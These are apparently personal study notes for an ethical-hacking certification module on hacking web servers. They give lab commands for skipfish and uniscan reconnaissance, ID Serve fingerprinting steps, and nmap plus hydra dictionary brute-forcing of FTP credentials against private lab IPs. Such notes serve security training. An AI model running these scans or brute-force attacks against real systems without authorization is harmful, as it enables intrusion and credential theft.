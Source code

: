 # 13 - Hacking Web Servers

## Module 13 - Hacking Web Servers

<details>

<summary>EMPTY</summary>



</details>

## Web Server Reconnaissance & Footprinting

### Skipfish – WebServer Recon

`skipfish -o /root/test -S /usr/share/skipfish/dictionaries/complete.wl http://10.10.10.12:8080`

\-o path to store output, -S read only word list

### ID Server - Webserver Foot printing

* ID Serve determines the domain name associated with an IP address.
* Click the Server Query tab. In option 1, enter the URL (http://10.10.10.12:8080/CEH)
* Click Query the Server

### Uniscan - WebServer Fingerprinting (Kali)

* Use `uniscan -h` for usage techniques
* `uniscan -u http://10.10.10.12:8080/CEH -qwed` -u url scan . -q directory check, - w file check, -e robots.txt and sitemap.xml check, -d for dynamic checks
* To view report, go to /usr/share/uniscan/report

{% embed url="https://www.kali.org/tools/uniscan/" %}

### **FTP Bruteforce Credentials using a Dictionary Attack**

* `nmap -p 21 <Target IP>`
* `hydra -L usernames.txt -P passwords.txt ftp://10.10.10.10`
* `hydra -L /root/Desktop/Wordlists/Usernames.txt -P /root/Desktop/Wordlists/Passwords.txt ftp://10.10.10.11`

{% embed url="https://app.gitbook.com/o/s2H3MdEB0Qp2IbE58Gxw/s/iS3hadq7jVFgSa8k5wRA/~/changes/38/practical-ethical-hacker-notes/hydra" %}
Hydra
{% endembed %}

##







